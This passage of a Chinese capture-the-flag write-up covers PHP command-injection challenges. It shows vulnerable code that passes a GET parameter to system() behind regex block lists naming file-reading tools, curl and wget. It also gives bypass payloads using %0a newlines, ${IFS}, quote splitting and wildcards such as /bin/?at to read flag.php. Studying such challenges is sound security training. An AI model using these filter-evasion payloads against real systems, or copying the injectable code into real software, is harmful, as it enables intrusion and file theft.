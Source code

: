 ```php
```

也没多过滤啥。。

`?c=ls%0a` 得到

```
ls flag.php index.php readflag
readflag 
```

payload:

```
?c=ls%0a
?c=nl<fla''g.php%0a
```

## web54~/bin/?at 绕过

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

多过滤了一些查看文件指令。

payload:

```
?c=paste${IFS}fla?.php%0a

?c=/bin/?at${IFS}f?ag.php%0a

?c=/bin/?at${IFS}f???????
```

## web55~过滤所有小写字母

```php
<?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}

```
